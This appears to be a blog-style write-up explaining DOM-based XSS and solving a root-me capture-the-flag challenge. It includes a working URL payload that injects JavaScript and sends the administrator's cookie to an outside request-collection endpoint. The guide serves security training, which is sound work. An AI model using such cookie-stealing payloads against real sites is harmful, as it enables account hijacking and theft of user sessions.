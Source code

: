 ```yaml
---
title: XSS DOM BASED
summary: Explanation of how DOM-Based XSS vulnerabilities work.
date: "2021-09-12T10:00:00+02:00"

---
```



# Introduction

**DOM-based** XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as eval() or innerHTML. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

## What is the DOM?
The Document Object Model (DOM) is a convention used to represent and work with objects in an HTML document (as well as in other document types).

All HTML documents have an associated DOM that consists of objects, which represent document properties from the point of view of the browser. When a client-side script is executed, it can use the DOM of the HTML page where the script runs. The script can access various properties of the page and change their values.


To deliver a DOM-based XSS attack, you need to place data into a source so that it is propagated to a sink and causes execution of arbitrary JavaScript.

## Important information :warning:
The most common source for DOM XSS is the URL, which is typically accessed with the window.location object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL.

In certain circumstances, such as when targeting a 404 page or a website running PHP, the payload can also be placed in the path. 

You can find more information about it [here](https://owasp.org/www-community/attacks/DOM_Based_XSS) or [in the portSwigger webpage](https://portswigger.net/web-security/cross-site-scripting/dom-based)

### Hands on! :fire:

In this example, we found ourselves in a challenge from root-me: a cybersec training website.

This challenge greets us with a game. This game requires us to input a number into a form, then it's compared to a random number. If it comes to be the same number, a green message appears, otherwise a red message appears.

We can check this behaviour by entering some random number and check the source with developer tools. For this example I will input the number **"5"**.

![xss dom image1](xssdom1.PNG)

#### Analysis
We can see in the screenshot above that the returned *red* answer, because our number is different than 71.043452......

Another **really** important thing to bear in mind is that our input appears reflected within the `script` tags, that means it's a nice candidate to inject malicious code, let's see if we can put some arbitrary code inside it.

#### Injection test 
Let's try to inject some Javascript `debugger`:
![xss dom image2](xssdom2.PNG)

And we can see that our code has been successfuly injected. 

#### Payload creation and execution 

So now, I'm going to inject a payload to steal the administrator's cookie, there is a report page where we assume the admin will try to answer every request we send him.

My payload is going to send a request to a public endpoint (It was called requestbin, now it's called pipedream, you can use any endpoint you want for sure), and concat the admin's cookie in the query param. Wait for some minutes untill we receive a response....
```
http://challenge01.root-me.org/web-client/ch32/index.php?number=%27;document.location=%22https://enrqxs92mtm1n.x.pipedream.net?cookie=%22.concat(document.cookie);%27
```

Aaand... there it is! 
![xss dom image 3](xssdom3.PNG)

We have captured our :sparkles: flag! :sparkles:

Thank you for your time and see you next time!

:smile: :sunset: